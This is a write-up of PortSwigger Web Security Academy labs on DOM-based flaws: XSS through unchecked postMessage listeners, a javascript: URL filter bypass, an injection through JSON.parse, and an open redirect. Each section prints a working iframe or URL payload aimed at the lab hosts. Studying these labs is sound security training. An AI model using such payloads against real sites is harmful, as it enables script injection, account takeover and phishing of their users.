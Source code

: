 # DOM-based vulnerabilities

- https://portswigger.net/web-security/dom-based

## DOM XSS using web messages

No `X-Frame-Options` header that would prevent loading this page in the `iframe` and additionally event listener preset for `message` event without origin verification that passes the input without sanitization to the `innerHtml` function.

Event listener for `message` event is our source, and `innerHtml` function is the sink.

Deliver below payload to the victim to solve the lab. It will load the victim page as an iframe and on load will post a message to all origins, causing vulnerable `message` event listener trigger.

```
<iframe src="https://0aa600ac04c124c89e1a8aa5009800fc.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("<img src=X onerror=\"print()\"/>", "*")'></iframe>
```

## DOM XSS using web messages and a JavaScript URL

Same story as before, but this time `message` event listener tries to check whether provided data is the link and update `location.href` by it.

Unfortunately the code shown below does not check whether the provided data starts with `http:` or `https:`, but only if the data contains one of those strings, so it could be bypassed by providing input `javascript:print();//https:`, which when set to `location.href` executes code and calls `print()`

```
window.addEventListener('message', function(e) {
    var url = e.data;
    if (url.indexOf('http:') > -1 || url.indexOf('https:') > -1) {
        location.href = url;
    }
}, false);
```

To solve the lab we can deliver `iframe` containing vulnerable page, which onload posts a message which bypasses the `http` schema check and change `location.href` to `javascript:print()` code which calls the `print()` function.  

```
<iframe src="https://0a7200ce03bc3ad48289581c002500f5.web-security-academy.net/" style="width: 100%; height: 100%;" frameBorder="0" onload='this.contentWindow.postMessage("javascript:print();//https:", "*")'></iframe>
```

## DOM XSS using web messages and JSON.parse

Again no origin check and no `X-Frame-Options` type headers.

This time input is provided via json and `JSON.parse` function is called.
On message receival the page would create an `iframe` and depending on `type` key provided it will take different actions. When `type` is set to `load-channel` it sets `url` json value as iframe `src` without any sanitization.

To prove what can be done with it I have created an `iframe` with target website and executed the below command, which proved that when `iframe.src` is set to `javascript:` schema it will execute code. To make sure the code will not be executed in my website context, but in target website context `alert(document.domain)` is called, which proves we execute code in target page context.

```
document.querySelector("iframe").contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.domain)"}', '*')
```

In order to solve the lab we need to make the victim access below page containing vulnerable website in an `iframe` and making apriopriate `postMessage` call causing js execution.

```
<iframe src="https://0a7700ea031731ad82d2bfc000f8002b.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\",\"url\":\"javascript:print()\"}", "*")'></iframe>
```

## DOM-based open redirection

`Back to blog` link is generated via `onlick` effect, which takes `url` query param without validation and sanitization and passes it to `location.href`. The query will be passed only if param starts with `http`, so it makes using `javascript:` pseudo protocol for code execution unusable.

```
<a href='#' onclick='returnUrl = /url=(https?:\/\/.+)/.exec(location); location.href = returnUrl ? returnUrl[1] : "/"'>Back to Blog</a>
```

To solve the lab, we need to access the url with open redirection to exploit server

```
https://0a7f004b034dd93b81637a8000cc00b5.web-security-academy.net/post?postId=7&url=https://exploit-0ad300ad037ad90381cd794e01dc0079.exploit-server.net/
```
